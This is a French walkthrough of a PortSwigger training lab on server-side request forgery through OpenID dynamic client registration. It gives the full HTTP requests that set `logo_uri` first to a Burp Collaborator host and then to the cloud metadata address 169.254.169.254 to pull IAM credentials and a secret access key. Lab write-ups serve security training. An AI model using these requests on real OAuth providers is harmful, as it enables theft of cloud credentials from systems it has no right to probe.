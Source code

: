 # Lab

https://portswigger.net/web-security/oauth/openid/lab-oauth-ssrf-via-openid-dynamic-client-registration

## Solution

En utilisant Burp pour analyser le trafic, commencez par vous connecter à votre propre compte. Visitez `https://oauth-YOUR-OAUTH-SERVER.oauth-server.net/.well-known/openid-configuration` pour accéder au fichier de configuration. Notez que le point de terminaison d'enregistrement des clients se trouve à l'adresse `/reg`.

Créez ensuite une requête POST appropriée dans Burp Repeater pour enregistrer votre propre application cliente avec le service OAuth. Il est essentiel de fournir un tableau `redirect_uris` contenant une liste blanche arbitraire d'URI de rappel pour votre fausse application. Par exemple :

```http
POST /reg HTTP/1.1
Host: oauth-YOUR-OAUTH-SERVER.oauth-server.net
Content-Type: application/json

{
    "redirect_uris" : [
        "https://example.com"
    ]
}
```

Envoyez la requête et observez que vous avez réussi à enregistrer votre propre application cliente sans nécessiter d'authentification. La réponse contient divers métadonnées associées à votre nouvelle application cliente, y compris un nouveau `client_id`.

En utilisant Burp, examinez le flux OAuth et remarquez que la page "Autoriser", où l'utilisateur donne son consentement aux permissions demandées, affiche le logo de l'application cliente. Ce logo est récupéré depuis `/client/CLIENT-ID/logo`. Selon la spécification OpenID, les applications clientes peuvent fournir l'URL de leur logo via la propriété `logo_uri` lors de l'enregistrement dynamique. Envoyez la requête GET `/client/CLIENT-ID/logo` à Burp Repeater.

Dans Repeater, revenez à la requête POST `/reg` que vous avez créée précédemment. Ajoutez la propriété `logo_uri`. Faites un clic droit et sélectionnez "Insérer un payload Collaborator" pour coller une URL Collaborator en tant que valeur. La requête finale devrait ressembler à ceci :

```http
POST /reg HTTP/1.1
Host: oauth-YOUR-OAUTH-SERVER.oauth-server.net
Content-Type: application/json

{
    "redirect_uris" : [
        "https://example.com"
    ],
    "logo_uri" : "https://BURP-COLLABORATOR-SUBDOMAIN"
}
```

Envoyez la requête pour enregistrer une nouvelle application cliente et copiez le `client_id` de la réponse.

Dans Repeater, allez à la requête GET `/client/CLIENT-ID/logo`. Remplacez le `CLIENT-ID` dans le chemin par le nouveau que vous venez de copier et envoyez la requête.

Allez dans l'onglet Collaborator et vérifiez les nouvelles interactions. Remarquez qu'il y a une interaction HTTP tentant de récupérer votre logo inexistant. Cela confirme que vous pouvez utiliser avec succès la propriété `logo_uri` pour susciter des requêtes du serveur OAuth.

Retournez à la requête POST `/reg` dans Repeater et remplacez la valeur actuelle de `logo_uri` par l'URL cible :

```
"logo_uri" : "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
```

Envoyez cette requête et copiez le nouveau `client_id` de la réponse.

Retournez à la requête GET `/client/CLIENT-ID/logo` et remplacez le `client_id` par le nouveau que vous venez de copier. Envoyez cette requête. Observez que la réponse contient les métadonnées sensibles de l'environnement cloud du fournisseur OAuth, y compris la clé d'accès secrète.

Utilisez le bouton "Soumettre la solution" pour soumettre la clé d'accès et résoudre le lab.